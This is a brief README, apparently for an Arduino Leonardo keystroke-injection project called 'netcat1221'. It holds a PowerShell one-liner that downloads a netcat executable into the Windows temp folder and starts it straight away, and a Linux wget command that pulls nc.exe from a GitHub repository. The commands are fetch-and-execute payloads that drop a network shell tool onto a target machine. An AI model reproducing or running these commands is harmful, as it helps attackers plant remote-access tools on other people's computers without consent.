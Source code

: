 # netcat1221

        For arduino # LEONARD projetc;
                windows c# code powershell (new-object System.Net.WebClient).DownloadFile('netcat github url','%TEMP%\nc1221.exe'); Start-Process "%TEMP%\nc1221.exe"
                linux wget https://github.com/s0l0n3t/netcat1221/blob/master/nc.exe?raw=true
                

